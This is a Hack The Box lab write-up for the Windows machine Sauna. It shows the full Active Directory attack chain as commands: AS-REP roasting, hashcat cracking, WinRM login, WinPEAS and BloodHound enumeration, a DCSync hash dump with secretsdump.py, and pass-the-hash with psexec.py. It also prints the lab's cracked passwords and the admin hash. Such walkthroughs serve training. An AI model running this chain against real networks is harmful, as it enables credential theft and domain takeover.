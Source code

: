```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna is an easy difficulty Windows machine that features Active Directory enumeration and
exploitation. Possible usernames can be derived from employee full names listed on the website.
With these usernames, an ASREPRoasting attack can be performed, which results in hash for an
account that doesn't require Kerberos pre-authentication. This hash can be subjected to an
offline brute force attack, in order to recover the plaintext password for a user that is able to
WinRM to the box. Running WinPEAS reveals that another system user has been configured to
automatically login and it identifies their password. This second user also has Windows remote
management permissions. BloodHound reveals that this user has the DS-Replication-Get-Changes-
All extended right, which allows them to dump password hashes from the Domain Controller in a
DCSync attack. Executing this attack returns the hash of the primary domain administrator, which
can be used with Impacket's psexec.py in order to gain a shell on the box as authority system."
date:  2022-05-22
header:
  teaser: /assets/img/sauna/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - Active Directory
    - DCSync
    - Bloodhound
    - Winpeas
    - ASREP
    - Kerberoasting
    - WinRM
toc: true
toc_sticky: true
---
```


![](/assets/img/sauna/cover.png)

## Synopsis

Sauna is an easy difficulty Windows machine that features Active Directory enumeration and
exploitation. Possible usernames can be derived from employee full names listed on the website.
With these usernames, an ASREPRoasting attack can be performed, which results in hash for an
account that doesn't require Kerberos pre-authentication. This hash can be subjected to an
offline brute force attack, in order to recover the plaintext password for a user that is able to
WinRM to the box. Running WinPEAS reveals that another system user has been configured to
automatically login and it identifies their password. This second user also has Windows remote
management permissions. BloodHound reveals that this user has the DS-Replication-Get-Changes-
All extended right, which allows them to dump password hashes from the Domain Controller in a
DCSync attack. Executing this attack returns the hash of the primary domain administrator, which
can be used with Impacket's psexec.py in order to gain a shell on the box as
NT_AUTHORITY\SYSTEM .

## Portscan

```powershell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-15 06:38:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
```

## Reconaissance

### HTTP
let's added sauna.htb into our hosts

![](/assets/img/sauna/1.png)

in about.html get information about user, this page section has different between `index.html`

![](/assets/img/sauna/2.png)

this box very stright forward for lateral movement, i've done use `feroxbuster` for finding juicy files but not there. 

im gonna make wordlists from about.html, something like below:

```bash
FergusSmith
fsmith
fergusS
ShaunCoins
scoins
Shaunc
HugoBear
Hbear
HugoB
BowieTaylor
Btaylor
bowieTaylor
SophieDriver
Sdriver
SophieD
StevenKerb
Skerb
StevenK
```

then let's use `GetNPUsers.py` from impacket to perform `AS-REP` Roasting for finding Pre-Authentication option enabled with those list, AS-REP Roasting is one of kerebroasting methodology.

```bash
GetNPUsers.py -usersfile users.txt -format hashcat -dc-ip $ip EgotisticalBank/
```

![](/assets/img/sauna/3.png)

as you can see we get NTLM hash, let use `hashcat` with module 18200 for cracking that hash with prompt:

```bash
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt 
```

![](/assets/img/sauna/4.png)

```text
Thestrokes23
```

we able to logged in using `evil-wirm` with prompt:

```bash
evil-winrm -i $ip -u fsmith -p 'Thestrokes23'
```

## Privilege Escalation

during the enumeration process i uploaded `winpeas.exe` into target and the result is we retrieve password for `svc_loanmgr` user.

![](/assets/img/sauna/6.png)

```bash
Moneymakestheworldgoround!
```

for next enumeration, i decide to upload sharphound.exe for gather information against active directory environment. 
execute command below for collect all data

```powershell
./Sharphound.exe -c all
```

![](/assets/img/sauna/7.png)

download that zip file into host, the start `bloodhound`; we're going into Dangerous Right feature for determining rights permission.

![](/assets/img/sauna/10.png)

result from bloodhound

![](/assets/img/sauna/13.png)

get an information like image below

![](/assets/img/sauna/12.png)

we can identify `SID` for user `svc_loanmgr` with prompt:

```powershell
Get-LocalUser -Name svc_loanmgr | Select Name, sid
```

![](/assets/img/sauna/11.png)

which mean this `svc_loanmgr` user has rights permission to perform DCSync attack, in short DCSync attack is Replication Service Remote Protocol (MS-DRSR) to pretend to be a domain controller (DC) in order to get user credentials from another DC. and now we can use `secretdump.py` from impacket for dumping administrator hash with following command:

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!'@10.10.10.175
```

![](/assets/img/sauna/14.png)

now we can pass the hash (PTH) using `psexec` with following command:

```bash
psexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![](/assets/img/sauna/15.png)

## Referencess

```
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
https://shellgeek.com/powershell-get-account-sid/
```
